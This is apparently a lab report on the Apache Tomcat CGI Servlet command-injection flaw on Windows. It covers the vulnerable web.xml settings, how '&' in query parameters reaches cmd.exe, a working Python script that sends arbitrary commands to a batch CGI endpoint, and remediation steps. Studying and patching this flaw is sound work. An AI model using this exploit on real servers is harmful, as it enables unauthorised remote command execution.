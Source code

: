 # PS
- Bug Overview: Apache Tomcat has a vulnerability in the CGI Servlet which can be exploited to achieve remote code execution (RCE). This is only exploitable when running on Windows in a non-default configuration in conjunction with batch files.
- Aim: Write a working exploit by which you can achieve RCE on the local VM.
- Install vulnerable service in a VM and ensure to meet the condition so that you can exploit it.
- Run your exploit on the vulnerable service and make a video of it.
- Write a brief report about this bug including your exploit code and link for exploit and Video proof.

# Explanation of Bug:
There is a vulnerability in parameter interpolation in Tomcat 9.0.0.M1 to 9.0.17, 8.5.0 to 8.5.39 and 7.0.0 to 7.0.93 which can be exploited by passing arguements as query
parameters which in turn are passed to the underlying windows command line.  
In windows `&` is a special character which acts as command seperator. Neither Apache Tomcat or the
Windows JRE perform does any kind of input validation for these special characters.  
So, after this we can literally input any command directly to the command line. For example, if
input is `&<cmd_to_run>`, the command which is passed to cmdline will be 
```
RCE.bat &<cmd_to_run>
```  
Here cmd.exe will interpret `RCE.bat` and `<cmd_to_run>` as seperate commands. To see the output of the injected command we need to prepend the command with `&echo.`. If this is 
not done, command will still be invoked but we will not be able to see its output. Optionally we can also prepend the command with `&echo+off` which turns off printing of
present working directory. (`+` is a must and cannot be replaced by `%20` or `space` since HTML queries have MIME type of `application/x-www-form-urlencoded` and since there are
no forms we have to craft query parameters manually).
```
RCE.bat &echo off&echo.&<cmd_to_run>
```  
This bug is only exploitable when running on Windows in a non-default
configuration in conjunction with batch files and `enableCmdLineArguements` set to `true` in web.xml file. If also `passShellEnvironment` is also set to `true`, this gives the
upper-hand to the attacker as he then doesn't need to enter exact path of commands he want to run. 

# Environment Setup:
1. We installed a Java Runtime Environment (JRE) on a Windows 7 virtual machine.
2. We then download the vulnerable version of Tomcat (in this case 7.0.93) and extract.
3. To enable privileged context, we modify the `conf\context.xml` file and set the property `privileged` to True.

	``` html
	<Context privileged="true">
	```	
4. To enable the CGI Serverlet, we would need to uncomment the commented CGI Serverlet section in `conf\web.xml`. We also initialize the `enableCmdLineArguments` to `true` for passing command line arguments to CGI script, we can also set `passShellEnvironment` for the sake of convenience without passing full paths of commands to be executed.
	``` html

	<servlet><servlet-name>cgi</servlet-name>
	<servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
	<init-param>
	  <param-name>cgiPathPrefix</param-name>
	  <param-value>WEB-INF/cgi</param-value>
	</init-param>
	<init-param>
	  <param-name>executable</param-name>
	  <param-value></param-value>
	</init-param>
	<init-param>
	  <param-name>enableCmdLineArguments</param-name>
	  <param-value>true</param-value>
	</init-param>
	<init-param>
	  <param-name>passShellEnvironment</param-name>
	  <param-value>true</param-value>
	</init-param>
	<load-on-startup>5</load-on-startup>
	</servlet>
	```

5. We enable the url pattern `/cgi/*` to be handled by the cgi scripts.
	``` html
	<servlet-mapping>
	<servlet-name>cgi</servlet-name>
	<url-pattern>/cgi/*</url-pattern>
	</servlet-mapping>
	```
6. To demonstrate the vulnerability, we need some cgi scripts to be present on the server, to simulate that, we create a directory for the cgi scripts

 	`mkdir webapps\ROOT\WEB-INF\cgi`

7. The exploit requires the presence of some cgi script, which would be executed each time a request to the certain script is made. The exploit would work as long as we have a non-empty valid cgi script (this script could otherwise be found by some attacker with enumeration under similar environment). We just create a `RCE.bat` which simply sleeps for 1 second
	```bash
	echo timeout 1 > webapps\ROOT\WEB-INF\cgi\RCE.bat 
	```

8.	We then instantiate the the TomCat server for exploitation
	``` bash
	cd bin
	catalina run
	```
9. Now we have our vulnerable server up for exploitation, we pass commands to the url of the cgi batch script.
  
# Exploit Code:

```python3
import requests as re		
base_url = input("Enter url of the .bat cgi script: ")
while(True):
	command = input("Enter the command: ")
	command = '&echo off'+'&echo.'+'&'+command		# & is command seperator
	r = re.get(base_url, params=command.replace(" ","+"))	# ' ' is replaced by '+' to craft valid query parameters due to reason explained in section 1
	print(r.text)
```

# Remediation:
1.	Set `enableCmdLineArguements` to `False`.
2.	If above option is required then add additional parameter `cmdLineArgumentsDecoded` and set it to `true`for proper input validation. 

# References:
1.	https://www.codewhitesec.blogspot.com/2016/02/java-and-command-line-injections-in-windows.html
2.	https://docs.microsoft.com/en-us/archive/blogs/twistylittlepassagesallalike/everyone-quotes-command-line-arguments-the-wrong-way
